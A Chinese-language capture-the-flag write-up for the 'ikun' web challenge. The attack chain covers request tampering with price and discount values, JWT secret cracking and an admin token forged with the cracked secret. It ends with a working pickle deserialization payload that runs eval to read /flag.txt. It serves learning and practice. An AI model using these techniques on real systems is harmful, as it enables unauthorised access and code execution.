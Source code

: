 # 3.10~3.16 WEEK3

## 概况

继续pickle反序列化



## wp

### ikun

ikun应援网站，往下翻可以购买东西，右键查看源码，有些提示，但都没有用。在募集资金的下面发现了提示：一定要买到lv6!!!

一页一页找不太现实，写一个脚本自己翻页找lv6吧。

![image-20250315215803284](C:\Users\lenovo\Desktop\24-aye-hoyosei\image\image-20250315215803284.png)

右键发现了写lv6是图片，写个脚本找一下

```python
import requests

url='http://12727098-ddda-4c92-90fd-0244e4cc9c81.node5.buuoj.cn:81/shop?page='

i=1

while i<1000:

  try:

​    r=requests.get(url+str(i))

​    if 'lv6.png' in r.text:

​      print (f"lv6在{i}页")

​      break

​    else:

​      i+=1

  except requests.exceptions.RequestException:

​    print("failed")
```

发现181页有lv6

点击购买，弹出来了登录界面，先随便注册一个账号，登陆后发现余额是1000元，1145141919元的lv6肯定买不起。bp抓包改一下价格试试。

改完价格后发现购物车被清空了，只好再改一下折扣了：

![image-20250315215900254](C:\Users\lenovo\Desktop\24-aye-hoyosei\image\image-20250315215900254.png)

send以后响应头的码变302重定向了

![image-20250315215919765](C:\Users\lenovo\Desktop\24-aye-hoyosei\image\image-20250315215919765.png)

打开这个location地址看看，发现需要admin访问,bp再抓包一下，看看有没有session，cookie之类的:

![image-20250315215932473](C:\Users\lenovo\Desktop\24-aye-hoyosei\image\image-20250315215932473.png)

没看到session，却看到一个JWT=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IjEifQ.8iYM4QgkAw4NpjpP8tEn7MBbZoF-Kj8YRbosz3Qrr-Q

在线解密一下：

![image-20250315215948726](C:\Users\lenovo\Desktop\24-aye-hoyosei\image\image-20250315215948726.png)

可以看出来，我们还需要一个密钥:

cd c-jwt-cracker

make

./jwtcrack eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IjEifQ.8iYM4QgkAw4NpjpP8tEn7MBbZoF-Kj8YRbosz3Qrr-Q

![image-20250315220009659](C:\Users\lenovo\Desktop\24-aye-hoyosei\image\image-20250315220009659.png)

可得密钥为1Kun

把1改成admin：

![image-20250315220026351](C:\Users\lenovo\Desktop\24-aye-hoyosei\image\image-20250315220026351.png)

得到新的jwt：eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.40on__HQ8B2-wM1ZSwax3ivRK4j54jlaXv-1JjQynjo

hackbar传参得到了回显，审计代码即可发现提示：

![image-20250315220044462](C:\Users\lenovo\Desktop\24-aye-hoyosei\image\image-20250315220044462.png)

打开/static/asd1f654e683wq/www.zip，看看好东西，即可在本地得到源码

www\sshop\views目录下发现有个Admin.php，打开审计代码：

```python
import tornado.web

from sshop.base import BaseHandler

import pickle

import urllib

 

class AdminHandler(BaseHandler):

  @tornado.web.authenticated

  def get(self, *args, **kwargs):

​    if self.current_user == "admin":

​      return self.render('form.html', res='This is Black Technology!', member=0)

​    else:

​      return self.render('no_ass.html')

  @tornado.web.authenticated

  def post(self, *args, **kwargs):

​    try:

​      become = self.get_argument('become')

​      p = pickle.loads(urllib.unquote(become))

​      return self.render('form.html', res=p, member=1)

​    except:

​      return self.render('form.html', res='This is Black Technology!', member=0)
```

发现存在pickle反序列化

```python
exp：（特备注明：需要在python2的环境下编辑）

import pickle

import urllib 

class payload(object):

  def __reduce__(self):

​    return (eval, ("open('/flag.txt','r').read()",))

a = pickle.dumps(payload())

print(urllib.quote(a))
```

bp抓包修改become参数

payload：

```
become=c__builtin__%0Aeval%0Ap0%0A%28S%22open%28%27/flag.txt%27%2C%27r%27%29.read%28%29%22%0Ap1%0Atp2%0ARp3%0A.
```

![image-20250315220232099](C:\Users\lenovo\Desktop\24-aye-hoyosei\image\image-20250315220232099.png)